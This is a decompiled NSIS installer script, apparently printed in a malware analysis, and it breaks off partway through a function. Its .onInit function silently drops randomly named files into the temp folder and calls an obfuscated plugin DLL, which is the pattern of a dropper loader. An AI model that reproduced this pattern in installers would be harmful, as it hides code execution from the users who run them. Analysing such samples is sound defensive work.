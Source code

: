 ```
LangString LSTR_22 1033 "Extract: error writing to file "
LangString LSTR_24 1033 "No OLE for: "
LangString LSTR_25 1033 "Output folder: "
LangString LSTR_29 1033 "Skipped: "
LangString LSTR_30 1033 "Copy Details To Clipboard"
LangString LSTR_36 1033 "Error opening file for writing: $\r$\n$\r$\n$0$\r$\n$\r$\nClick Abort to stop the installation,$\r$\nRetry to try again, or$\r$\nIgnore to skip this file."
LangString LSTR_37 1033 Custom
LangString LSTR_38 1033 Cancel
LangString LSTR_39 1033 ": Installing"
LangString LSTR_40 1033 "Show &details"
LangString LSTR_41 1033 Completed
LangString LSTR_42 1033 "< &Back"
LangString LSTR_43 1033 "&Next >"
LangString LSTR_44 1033 "Click Next to continue."
LangString LSTR_45 1033 ": Completed"
LangString LSTR_46 1033 &Close


InstType $(LSTR_37)    ;  Custom
InstallDir $TEMP
; wininit = $WINDIR\wininit.ini


; --------------------
; PAGES: 2

; Page 0
Page instfiles
  CompletedText $(LSTR_41)    ;  Completed
  DetailsButtonText $(LSTR_40)    ;  "Show &details"

/*
; Page 1
Page COMPLETED
*/


; --------------------
; SECTIONS: 1
; COMMANDS: 23

Function .onInit
  SetOutPath $INSTDIR
  File xavbedcnsrtbhix
  File nejus0or2e4wbg8rhay
  xktfu::Cgrlcpdlsle
    ; Call Initialize_____Plugins
    ; SetOverwrite off
    ; File $PLUGINSDIR\xktfu.dll
    ; SetDetailsPrint lastused
    ; CallInstDLL $PLUGINSDIR\xktfu.dll Cgrlcpdlsle
FunctionEnd


Section ; Section_0
SectionEnd


/*
Function Initialize_____Plugins
  SetDetailsPrint none
  StrCmp $PLUGINSDIR "" 0 label_19
```